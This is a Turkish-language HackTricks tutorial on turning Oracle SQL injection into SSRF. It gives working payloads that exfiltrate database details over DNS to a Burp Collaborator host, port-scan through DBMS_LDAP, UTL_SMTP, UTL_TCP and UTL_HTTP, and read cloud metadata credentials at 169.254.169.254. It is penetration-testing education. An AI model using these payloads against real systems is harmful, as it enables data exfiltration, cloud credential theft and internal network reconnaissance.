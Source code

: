 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Bu gönderiyi [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/) adresinden silinmiş gönderinin wayback machine kopyası olarak sunun.**

## SSRF

Oracle kullanarak Out of Band HTTP ve DNS istekleri yapmak iyi belgelenmiştir, ancak bu, enjeksiyonlarda SQL verilerini dışarı sızdırmanın bir yolu olarak kullanılmaktadır. Bu teknikleri/fonksiyonları her zaman diğer SSRF/XSPA'ları yapmak için değiştirebiliriz.

Oracle'ı kurmak gerçekten acı verici olabilir, özellikle de komutları denemek için hızlı bir örnek kurmak istiyorsanız. [Appsecco](https://appsecco.com) şirketindeki arkadaşım ve meslektaşım [Abhisek Datta](https://github.com/abhisek), bana bir t2.large AWS Ubuntu makinesinde ve Docker'da bir örnek kurmamı sağlayan [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) adresini gösterdi.

Docker komutunu `--network="host"` bayrağı ile çalıştırdım, böylece bu blog yazısının süresince Oracle'ı tam ağ erişimi ile yerel bir kurulum olarak taklit edebildim.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### URL veya Hostname/Port Numarası belirtimini destekleyen Oracle paketleri <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Bir host ve port belirtimini destekleyen paketler ve fonksiyonlar bulmak için, [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html) üzerinde bir Google araması yaptım. Özellikle,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
Arama aşağıdaki sonuçları döndürdü (hepsi dışa ağ bağlantısı gerçekleştirmek için kullanılamaz)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Bu kaba arama, `DBMS_LDAP` gibi paketleri açıkça atlıyor (bir ana bilgisayar adı ve port numarası geçişine izin verir) çünkü [belgelendirme sayfası](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) sizi [farklı bir konuma](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) yönlendiriyor. Bu nedenle, dışa istekler yapmak için kötüye kullanılabilecek başka Oracle paketleri olabilir, bunları atlamış olabilirim.

Her durumda, keşfettiğimiz ve yukarıda listelediğimiz bazı paketlere bir göz atalım.

**DBMS\_LDAP.INIT**

`DBMS_LDAP` paketi, LDAP sunucularından veri erişimine olanak tanır. `init()` fonksiyonu, bir LDAP sunucusuyla bir oturum başlatır ve bir ana bilgisayar adı ve port numarasını argüman olarak alır.

Bu fonksiyon, aşağıdaki gibi DNS üzerinden veri sızdırma gösterimi için daha önce belgelenmiştir.
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
Ancak, fonksiyonun bir ana bilgisayar adı ve bir port numarası argümanları kabul ettiğini göz önünde bulundurursak, bunu bir port tarayıcı gibi çalışmak için de kullanabilirsiniz.

İşte birkaç örnek
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.`, bir oturum değerinin portun açık olduğunu gösterirken, portun kapalı olduğunu gösterir.

**UTL\_SMTP**

`UTL_SMTP` paketi, SMTP üzerinden e-posta göndermek için tasarlanmıştır. [Oracle belgeleri sitesinde sağlanan örnek, bu paketi kullanarak nasıl e-posta gönderebileceğinizi göstermektedir](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Ancak bizim için ilginç olan, bir ana bilgisayar ve port belirtme yeteneğidir.

Aşağıda, 2 saniyelik bir zaman aşımı ile `UTL_SMTP.OPEN_CONNECTION` fonksiyonu ile basit bir örnek gösterilmektedir.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
`ORA-29276: transfer timeout` açık bir portun olduğunu ancak SMTP bağlantısının kurulmadığını gösterirken, `ORA-29278: SMTP transient error: 421 Service not available` portun kapalı olduğunu gösterir.

**UTL\_TCP**

`UTL_TCP` paketi ve prosedürleri ile fonksiyonları, [hizmetlerle TCP/IP tabanlı iletişim sağlar](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Belirli bir hizmet için programlandığında, bu paket ağa giriş yapmak veya tüm Sunucu Tarafı İsteklerini gerçekleştirmek için kolayca bir yol haline gelebilir, çünkü bir TCP/IP bağlantısının tüm yönleri kontrol edilebilir.

Oracle dokümantasyon sitesindeki [örnek, bu paketi kullanarak bir web sayfasını almak için ham bir TCP bağlantısı nasıl yapılacağını göstermektedir](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Bunu biraz daha basitleştirip, örneğin, metadata örneğine veya keyfi bir TCP/IP hizmetine istek yapmak için kullanabiliriz.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
İlginç bir şekilde, ham TCP istekleri oluşturma yeteneği sayesinde, bu paket tüm bulut sağlayıcılarının Instance meta-veri hizmetini sorgulamak için de kullanılabilir, çünkü yöntem türü ve ek başlıklar TCP isteği içinde iletilebilir.

**UTL\_HTTP ve Web İstekleri**

Belki de her Out of Band Oracle SQL Injection eğitiminde en yaygın ve geniş bir şekilde belgelenmiş teknik [`UTL_HTTP` paketi](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070) dir. Bu paket, belgelerde şu şekilde tanımlanmıştır - `UTL_HTTP paketi, SQL ve PL/SQL'den Hypertext Transfer Protocol (HTTP) çağrıları yapar. HTTP üzerinden İnternetteki verilere erişmek için kullanabilirsiniz.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
Ayrıca, bunu şu tür sorgularla bazı temel port taramaları gerçekleştirmek için de kullanabilirsiniz.
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
`ORA-12541: TNS:no listener` veya `TNS:operation timed out` hatası, TCP portunun kapalı olduğunun bir işaretiyken, `ORA-29263: HTTP protocol error` veya veri, portun açık olduğunun bir işareti.

Geçmişte çeşitli başarılarla kullandığım bir diğer paket, bir URL ile etkileşimde bulunmanıza ve HTTP protokolünü desteklemenize olanak tanıyan [`HTTPURITYPE` Oracle soyut tipinin `GETCLOB()` yöntemi](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705)'dir. `GETCLOB()` yöntemi, bir URL'den GET yanıtını [CLOB veri tipi olarak](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html) almak için kullanılır. [select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
